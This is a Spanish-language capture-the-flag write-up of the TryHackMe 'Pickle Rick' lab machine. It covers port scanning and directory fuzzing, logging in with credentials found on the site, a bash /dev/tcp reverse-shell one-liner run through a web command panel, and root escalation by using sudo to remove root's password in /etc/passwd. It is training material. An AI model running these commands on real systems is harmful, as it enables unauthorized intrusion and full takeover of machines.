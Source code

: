 ```yaml
---
title: Pickle Rick
date: 2024-09-21
categories: [ROAD TO EJPTv2, TryHackMe]
tags: []  # TAG names should always be lowercase
image: /assets/images/tryhackme/thmlogo1.png
---
```


En la máquina **Pickle Rick**, encuentro credenciales realizando **Fuzzing** web, y obtengo acceso en un panel de comandos, con la capacidad de ejecutar comandos en la máquina. Entraremos en la máquina y escalaré privilegios por los permisos de **Sudo** del usuario **www-data**.

---

![picture](/assets/images/tryhackme/rick1.png)

Lo primero que realizaré, será un *PING*, para comprobar si tengo conectividad con la máquina, y ya de paso para ver de que sistema operativo se trata.

Veo que tengo conectividad, y que el **ttl=63**, con lo que ya sabemos que estamos ante una máquina **Linux**.

![picture](/assets/images/tryhackme/rick2.png)

A continuación, realizaré será un escaneo de puertos con *Nmap*, para comprobar los puertos abiertos de la máquina.

```bash
nmap -p- --open -T5 10.10.233.129 -n -Pn -v
```

![picture](/assets/images/tryhackme/rick3.png){: w="600" h="300" }

Al comprobar los puertos abiertos, me dirijo al navegador para ver el contenido de la página web corriendo por el puerto **80**.

![picture](/assets/images/tryhackme/rick4.png)

Buscando algún tipo de información comentada en el código fuente de la página, encuentro un nombre de usuario.

![picture](/assets/images/tryhackme/rick5.png)

Realizando **Fuzzing** con **Gobuster**, encuentro las siguientes rutas y archivos.

```bash
gobuster dir -u http://10.10.233.129 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x .php,.txt,.md -b 404,403
```

![picture](/assets/images/tryhackme/rick6.png)

En el archivo "**robots.txt**", encuentro una palabra en texto claro.

![picture](/assets/images/tryhackme/rick7.png)

Y en el archivo de **login.php** encuentro un panel de login, voy a probar a usar el nombre de usuario encontrado y el texto reciente del archivo "**robots.txt**".

![picture](/assets/images/tryhackme/rick8.png)

Y obtengo resultado.

![picture](/assets/images/tryhackme/rick9.png)

Me llama la atención que haya un panel de comandos, voy a intentar ejecutar un comando para comprobar si me lo ejecuta en la máquina y me muestra el *output* del comando ejecutado.

Ejecutando el comando **whoami**, nos muestra el usuario que está corriendo el servicio Web.

![picture](/assets/images/tryhackme/rick10.png)

A continuación, la idea es obtener una **Reverse Shell**, para poder ejecutar comandos en la máquina local desde una terminal interactiva.

Para ello primero crearemos un **Listener** con **ncat**, por donde recibiré la **Reverse Shell**.

- Listener
	
```bash
nc -lnvp 4444
```

- Código para obtener la **Reverse Shell**.
	
```bash
bash -c "bash -i >& /dev/tcp/'Nuestra Ip'/4444 0>&1"
```

Y una vez ejecutemos, se nos quedará cargando la página, y habremos obtenido la **Shell** interactiva por el **Listener**.

- Ejecución del comando.

    ![picture](/assets/images/tryhackme/rick11.png)

- Shell interactiva

    ![picture](/assets/images/tryhackme/rick12.png)

Realizo un tratamiento de la **TTY**, para poder trabajar mejor.

```bash
script /dev/null -c bash
Ctrl_Z
stty raw -echo;fg
ls
export SHELL=/bin/bash
export TERM=screen
stty rows 51 columns 208
reset
```

En la misma ruta encuentro la primera **flag**.

![picture](/assets/images/tryhackme/rick13.png)

Buscando en la máquina, encuentro el directorio "**rick**" en "**/home**", y dentro encuentro la segunda flag.

![picture](/assets/images/tryhackme/rick14.png)

Y buscando posibles escaladas de privilegios, en búsqueda de la última **flag**, intentando encontrar bits **SUID**, **capabilities**, procesos, contraseñas en archivos, etc.

Me doy cuenta que el usuario **www-data** puede ejecutar **SUDO** sin necesitar contraseña. (*muy extraño*)

![picture](/assets/images/tryhackme/rick15.png)

Para la escalada de privilegios, le quitaré la contraseña al usuario **root**, para ello modificaremos el archivo "**/etc/passwd**".

```bash
sudo nano /etc/passwd
```

- Antes
	
	![picture](/assets/images/tryhackme/rick16.png)

- Después
	
	![picture](/assets/images/tryhackme/rick17.png)

Guardamos, salimos y migramos al usuario **root**.

![picture](/assets/images/tryhackme/rick18.png)

Y encontramos la tercera y última flag.

![picture](/assets/images/tryhackme/rick19.png)